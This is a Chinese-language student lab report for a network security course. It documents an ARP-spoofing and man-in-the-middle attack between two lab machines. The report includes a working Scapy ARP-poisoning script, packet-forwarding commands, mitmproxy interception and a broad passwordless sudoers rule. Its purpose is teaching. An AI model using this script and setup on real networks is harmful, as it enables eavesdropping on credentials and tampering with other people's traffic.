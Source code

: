 # 网络安全工程 实验2：中间人攻击

## 实验要求

在攻击机上利用Scapy伪造数据包，对另外两台靶机进行ARP欺骗，实现窃听靶机之间的会话，在实现ARP欺骗的基础上，进一步实现中间人攻击。利用iptables 修改流量的转发端口，使用mitmproxy进行拦截请求，可以获取到请求的参数，从中提取出重要的信息，比如用户名和密码，也能够修改响应，改变返回的内容。mitmproxy 提供了inline script 方法，能够使用脚本来操作流量，使得mitmproxy 的功能更加强大，当然也可以尝试拦截https的流量，mitmproxy 也具有这样的能力。

- 要求1：使用Scapy实现窃听另外两台靶机的会话。例如窃听并提取另外两台靶机之间FTP或者HTTP会话的登录账号。
- 要求2：对另外两台靶机进行中间人攻击，实现对会话进行篡改。例如对靶机间的HTTP会话进行注入，修改HTTP响应。

## 实验环境

- 网络环境：利用路由器的自组无线局域网，子网网段192.168.1.0/24
- 攻击者 Attacker：
    - OS: MacOS 10.14
- 服务器 Server：
    - OS: MacOS 10.13
    - IP: 192.168.1.107
- 客户机 Victim：
    - OS: Windows 10
    - IP: 192.168.1.104
- **注意**：由于使用物理机环境而非kali虚拟机，因此部分操作与实验指示书有所不同

## 实验步骤

### 要求1

1. 首先将三台主机连入子网，并为server配置http服务：

    ```bash
        $ python3 -m http.server 80
    ```

2. 随后用客户机victim通过浏览器访问服务器ip地址，可以得到 http response 如下：

    ![HTTP RESPONSE](fig/browser_norm.PNG)

3. 在攻击者上编写arp poison脚本，原理是利用Scapy分别向server和victim不断发送被修改过的ARP包，从而在二者的ARP缓存中投毒，将两者对于对方的ARP缓存均更改为attacker的MAC地址。脚本详见`src/arp_poison.py`，主要内容如下：

    ```py
        server_ip = "192.168.1.107"
        victim_ip = "192.168.1.104"
    
        # 获取目标ip的MAC地址
        def get_mac(ip_address):
            ans, unans = srp(Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(pdst=ip_address), timeout=2, retry=10)
            for s, r in ans:
                return r[Ether].src
            return None
    
        # 分别获取二者的MAC
        victim_mac = get_mac(victim_ip)
        server_mac = get_mac(server_ip)
    
        # 构造ARP包
        # 发给server的包中，源ip为victim，但源mac为attacker
        # 发给victim的包类似
        poison_server = ARP()
        poison_server.op = 2
        poison_server.psrc = victim_ip
        poison_server.pdst = server_ip
        poison_server.hwdst = server_mac
    
        poison_victim = ARP()
        poison_victim.op = 2
        poison_victim.psrc = server_ip
        poison_victim.pdst = victim_ip
        poison_victim.hwdst = victim_mac
    
        # 循环发送，保证占有ARP缓存
        while True:
            send(poison_server)
            send(poison_victim)
            time.sleep(2)
            print("Poisoning...")
    ```

4. 执行上面的脚本，开始ARP投毒

    ```bash
        $ python arp_poison.py
    ```

5. 为了使用mitmproxy，attacker需要开启转发，流程参考 [mitmproxy docs](https://docs.mitmproxy.org/stable/howto-transparent/#macos)，具体操作如下：

    ```bash
        $ sudo sysctl -w net.inet.ip.forwarding=1
        $ echo "rdr on en0 inet proto tcp to any port {80, 443} -> 127.0.0.1 port 8080" > pf.conf
        $ sudo pfctl -f pf.conf
        $ sudo pfctl -e
    ```
    随后修改`/etc/sudoers`，在文件末尾添加如下内容：
    ```
        ALL ALL=NOPASSWD: /sbin/pfctl -s state
    ```

6. 开启`mitmproxy`进行流量监听：
    ```bash
        $ mitmproxy --mode transparent
    ```

7. 此后，victim再向server发送请求时，attacker都会监听到HTTP会话，如，victim再次通过浏览器访问server时，attacker可以监控到相应的GET和Response：
    ![transparent](fig/transparent.png)

### 要求2

1. attacker在`mitmproxy`中开启对server (192.168.1.107) 的流量拦截：
    ![intercept](fig/intercept.png)
2. victim再次发送GET请求时，Response将被截获：
    ![intercept response](fig/intercept_response.png)
3. 这时attacker即可对包进行编辑，从而达到篡改会话的目的，如这里我们进行HTTP会话注入，修改回复内容：
    - 原始内容：
        ![response_origin](fig/response_origin.png)

    - 修改内容：
        ![response_edited](fig/response_edited.png)
4. attacker完成修改后，即可按`a`放行，victim将收到被篡改过的回复：
    ![browser_poison](fig/browser_poison.PNG)

## 分工情况
